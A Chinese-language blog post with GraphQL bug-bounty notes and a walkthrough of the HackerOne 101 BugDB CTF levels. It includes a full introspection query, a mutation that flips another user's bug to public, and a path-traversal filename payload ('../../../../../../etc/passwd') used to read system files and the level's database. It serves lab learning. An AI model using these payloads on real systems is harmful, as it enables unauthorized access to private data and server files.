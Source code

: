 ```yaml
---
layout: post
title: BugBounty-GraphQL
---
```


* TOC
{:toc}

## 前置知识

官方文档

+ [https://graphql.cn/](https://graphql.cn/learn/queries/#mutations)

分析工具

+ [chrome插件版Graphiql](https://chrome.google.com/webstore/detail/graphiql-extension/jhbedfdjpmemmbghfecnaeeiokonjclb?hl=en)
+ [graphdoc生成文档](https://github.com/2fd/graphdoc)

通用自省payload，graphiql默认发送

```
{"query":"\n  query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        locations\n        args {\n          ...InputValue\n        }\n      }\n    }\n  }\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n                ofType {\n                  kind\n                  name\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n"}
```

## 攻击面

## CTF

### hackone101 BugDB v1

题目提供了GraphiQl的界面，通过右侧的Docs可以得到所有接口信息

![](../images/bugDB_v1_1.png)

使用Query嵌套查询查询

![](../images/bugDB_v1_2.png)

### hackone101 BugDB v2

考点是`Mutation`的使用

需要将`victim`用户的`Bugs`的`privite`属性设置为`false`

```
mutation {
  modifyBug(id: 2, private: false) {
    ok
    bug {
      id
    }
  }
}
```

### hackone101 BugDB v3

常规的，将`query`方法列出

![](../images/bugDB_v3_1.png)

观察内省，发现多了两个`Mutation`的操作

分别是上传文件和修改文件名称

上传文件

![](../images/bugDB_v3_2.png)

得到的文件名是一串随即数

```
                          "node": {
                            "id": "QXR0YWNobWVudHM6MQ==",
                            "bugId": 1,
                            "filename": "a13f22a17a0b6c38ec973e42dc80b608",
                            "bug": {
                              "id": "QnVnczox"
                            }
```

修改文件名


![](../images/bugDB_v3_3.png)

修改文件名后得到的文件名成为可控值

```
                          "node": {
                            "id": "QXR0YWNobWVudHM6MQ==",
                            "bugId": 1,
                            "filename": "test1.txt",
                            "bug": {
                              "id": "QnVnczox"
                            }
```

到这里我就卡住了，然后参考了别人的wp

首先hackerone给出的提示为

+ What new functionality was added?
+ Filenames are always interesting
+ How do you access attachments? Hint: not via GraphQL

通过路由*/attachments/1*可以访问到之前上传的文件

![](../images/bugDB_v3_4.png)

事实上这有些类似我们的软连接的处理，在文件名中存在路径穿越的情况

```
mutation modifyAttachment{
  modifyAttachment(id: 1, filename: "../../../../../../etc/passwd"){
    ok
  }
}
```

当看了`main.py`和`model.py`的源码后，发现有这么一个东西

```python
from sqlalchemy import create_engine from sqlalchemy.ext.declarative import declarative_base from sqlalchemy.orm import relationship, scoped_session, sessionmaker from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String engine = create_engine('sqlite:///level18.db', convert_unicode=True) db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) Base = declarative_base() Base.query = db_session.query_property() class User(Base): __tablename__ = 'users' id = Column(Integer, primary_key=True) username = Column(String(255)) password = Column(String(255)) bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') class Bug(Base): __tablename__ = 'bugs' id = Column(Integer, primary_key=True) reporter_id = Column(Integer, ForeignKey('users.id')) reporter = relationship(User, primaryjoin=reporter_id == User.id) text = Column(Text(65536)) private = Column(Boolean()) attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') class Attachment(Base): __tablename__ = 'attachments' id = Column(Integer, primary_key=True) bug_id = Column(Integer, ForeignKey('bugs.id')) bug = relationship(Bug, primaryjoin=bug_id == Bug.id) filename = Column(String(255))
```

其中有个*sqlite:///level18.db*，用同样的方法，可以将flag读出

![](../images/bugDB_v3_5.png)

## 漏洞报告

## template

## 参考资料

+ [攻击GraphQL](https://xzfile.aliyuncs.com/upload/zcon/2018/7_%E6%94%BB%E5%87%BBGraphQL_phithon.pdf)
